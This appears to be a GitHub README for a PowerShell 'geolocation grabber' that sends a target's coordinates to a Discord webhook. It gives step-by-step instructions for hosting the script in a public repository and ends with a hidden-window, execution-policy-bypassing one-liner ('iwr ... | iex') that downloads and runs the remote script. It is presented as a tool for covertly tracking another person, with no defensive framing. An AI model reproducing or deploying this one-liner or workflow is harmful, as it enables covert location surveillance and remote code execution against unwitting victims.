 # Geolocation-grabber
Sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>Download geolocationGraber.ps1.txt<p/>
<p>Edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>Save <p/>
<p>Create a new repo in public <p/>
<p>Add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>Click geolocationGraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>Click the pen<p/>
<p>Delete .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>Commit changes <p/>
<p>You should be left with geolocationGraber.ps1<p/>
<p>Click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>Click raw<p/>
<p>Copy that link <p/>
<p><p/>
<p>Paste that link in the line below where it says paste here <p/>

```
 PowerShell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex 
``` 
<p> Now just paste that oneliner into your **run.exe** you can get there by pressing Win + R
